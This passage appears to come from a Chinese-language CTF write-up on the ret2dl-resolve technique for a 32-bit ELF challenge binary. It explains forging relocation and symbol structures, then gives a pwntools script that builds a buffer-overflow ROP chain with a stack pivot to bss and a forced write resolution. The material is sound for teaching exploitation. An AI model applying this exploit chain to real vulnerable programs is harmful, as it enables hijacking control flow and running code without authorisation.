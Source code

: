 但是`.rel.plt. .dynsym .dynstr`所在的内存区域都不可写,所以能改变的只有reloc_arg。思路是在内存中伪造Elf32_Rel和Elf32_Sym两个结构体，并手动传递reloc_arg使其指向我们伪造的结构体，让Elf32_Sym.st_name的偏移值指向预先放在内存中的字符串system完成攻击。
为了地址可控，我们首先进行栈劫持并跳转到0x0804834B(jmp loc_08048300),`push 18h`在构造新栈时手动布置(需要构造新栈防止劫持栈后程序奔溃)

```python
    from pwn import *

    start_addr = 0x08048350
    read_plt = 0x08048310
    write_plt = 0x08048340
    write_plt_without_push_reloc_arg = 0x0804834b
    leave_ret = 0x08048482
    pop3_ret = 0x08048519   # pop esi; pop edi; pop ebp; retn
    pop_ebp_ret = 0x0804851b
    new_stack_addr = 0x0804a200                                                     # bss与got表相邻，_dl_fixup中会降低栈后传参，设置离bss首地址远一点防止参数写入非法地址出错

    p = process('/home/nop/Desktop/level3')

    payload = ""
    payload += 'A'*140                                                              # padding
    payload += p32(read_plt)                                                        # 调用read函数往新栈写值，防止leave; retn到新栈后出现ret到地址0上导致出错
    payload += p32(pop3_ret)                                                        # read函数返回后从栈上弹出三个参数,为了后面能够将新的栈顶pop给ebp(read函数执行完后，参数仍旧在栈中)
    payload += p32(0)                                                               # fd = 0
    payload += p32(new_stack_addr)                                                  # buf = new_stack_addr
    payload += p32(0x400)                                                           # size = 0x400
    payload += p32(pop_ebp_ret)                                                     # 把新栈顶给ebp，接下来利用leave指令把ebp的值赋给esp
    payload += p32(new_stack_addr)
    payload += p32(leave_ret)                                                       # ret执行之后，esp执行payload1+4即p32(write_plt_without_push_reloc_arg)的位置

    p.send(payload)                                                                 # 程序从call read 执行到ret后就转去执行payload中的read函数，将下面的payload写入new_stack_addr处

    payload1 = ""
    payload1 += "AAAA"                                                               # leave = mov esp, ebp; pop ebp（esp+4，此处用于填充）
    payload1 += p32(write_plt_without_push_reloc_arg)                                # 强制程序对write函数重定位，reloc_arg由我们手动放入栈中
    payload1 += p32(0x18)                                                            # 手动传递write的reloc_arg，调用write
    payload1 += p32(start_addr)                                                      # 函数执行完后返回start
    payload1 += p32(1)                                                               # write函数参数 fd = 1
    payload1 += p32(0x08048000)                                                      # write函数参数buf = ELF程序加载开头，write会输出ELF
    payload1 += p32(4)                                                               # write函数参数size = 4
    p.send(payload1)
```
